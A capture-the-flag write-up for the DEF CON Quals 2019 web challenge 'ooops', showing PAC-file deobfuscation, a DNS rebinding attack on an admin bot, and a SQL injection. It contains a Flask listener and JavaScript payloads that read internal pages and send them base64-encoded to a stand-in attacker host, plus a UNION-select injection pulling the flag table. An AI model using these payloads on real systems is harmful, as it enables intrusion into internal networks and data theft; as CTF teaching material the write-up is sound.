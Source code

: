 ```yaml
---
layout: post
title: Defcon ctf quals 2019 : ooops
tags:
  - writeup
  - web
---
```


# Defcon ctf quals 2019 : ooops

**Category:** Web
**Points:** 137
**Solves:** 34
**Description:**

> On our corporate network, the only overflow is the Order of the Overflow. <br/>
> Files: <a href="https://s3.us-east-2.amazonaws.com/oooverflow-challs/b48fb18a0837e8e6840d5101ff44bb9ee5ee1d22846580487ccce756b966f6b2/info.pac">info.pac</a>


## Write-up
### 1. javascript deobfuscate.
Change `eval` to `console.log`.
```js
FindProxyForURL = function(url, host) {
	/* The only 'overflow' that employees can access is the Order of the Overflow. Log in with OnlyOne:Overflow. HTTPS support is coming soon. */ 
	if (shExpMatch(host, 'oooverflow.io')) return 'DIRECT';
	return 'PROXY ooops.quals2019.oooverflow.io:8080';
}
```
now, we can access challenge page !

### 2. DNS Rebinding.
if you send a URL, the bot access to the URL. And you look at the referer of http header, you can see that it starts from the internal IP address. (ex: 10.x.x.x)

I tried DNS rebinding. I could not access the internal page using XHR because of SOP(same origin policy).

> 1. Send my server Address ( ex: `[A.hacker.com]` == my server address )
> 2. Check the bot's connection and referer header(Internal Address).
> 3. Send js Script to bot.
> 4. Change `[A.hacker.com]`'s DNS to Internal Address. ( ex: `[A.hacker.com]` == 10.x.x.x )

- server.py
```python
from flask import Flask, request
import threading
import time

app = Flask(__name__)

@app.route("/")
def hello():
    re = request.headers['Referer']
    print re
    return open('index.html').read()

app.run(host='0.0.0.0', port=5000)
```

- index.html
```html
<script>
setTimeout(function() {
  var xhr = new XMLHttpRequest();
  xhr.open("GET", "http://[A.hacker.com]/admin/view/1");
  xhr.onreadystatechange = function () {
    if (xhr.readyState === 4) {
      var img = new Image();
      img.src = "http://[hacker.com]/res?x=" + btoa(xhr.responseText);
    }
  };
  xhr.send();
}, 10000);
</script>
```

### 3. SQL Injection.

Now We can see the internal page ! And It looks like a SQL injection !

- response html
```html
<!doctype html>
<html>
<head>
<title>OOOPS &mdash; Evaluate Requests</title>
<link href="/css/bootstrap.min.css" rel="stylesheet" integrity="sha384-ggOyR0iXCbMQv3Xipma34MD+dH/1fQ784/j6cY/iJTQUOhcWr7x9JvoRxT2MZw1T" crossorigin="anonymous"></head>
<body>
<div class="container">
<div class="row">

<!-- Query: select rowid,* from requests where rowid=1; -->

<p>
Request #1 from b&#39;10.255.0.2&#39;.
 Automatically evaluated 
</p>

<a id="lnk" class="btn btn-secondary btn-block btn-lg" href="http://3ccdcab0.0a00061a.rbndr.us:5000">
Visit http://3ccdcab0.0a00061a.rbndr.us:5000
</a>

</div>
</div>
</body>
</html>
```

- index.html
```html
<script>
setTimeout(function() {
  var xhr = new XMLHttpRequest();
  xhr.open("GET", "http://[A.hacker.com]/admin/view/-1%20union%20select%201,2,3,group_concat(flag),5%20from%20flag");
  xhr.onreadystatechange = function () {
    if (xhr.readyState === 4) {
      var img = new Image();
      img.src = "http://[hacker.com]/res?x=" + btoa(xhr.responseText);
    }
  };
  xhr.send();
}, 10000);
</script>
```

<img src='https://github.com/wooeong2/ctfs/blob/master/writeups/2019/Defcon%20Quals/ooops/flag.png'>

### FLAG
> OOO{C0rporateIns3curity}
